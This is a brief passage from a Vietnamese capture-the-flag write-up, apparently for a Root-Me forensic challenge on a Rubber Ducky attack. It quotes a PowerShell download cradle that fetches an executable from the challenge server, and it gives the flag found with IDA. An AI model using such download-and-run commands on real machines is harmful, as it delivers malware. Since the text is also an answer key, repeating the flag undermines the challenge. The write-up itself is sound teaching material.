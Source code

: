 ```
iex(New-ObjectSystem.Net.WebClient).DownloadFile('http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe','666c61676765643f.exe');
```

Click vào link thì tải được 1 file .exe, mình dùng IDA để mở thì thu được ``Flag: RubberDuckyFail3D``

![1701594588214](image/Writeup/1701594588214.png)

**Password: RubberDuckyFail3D**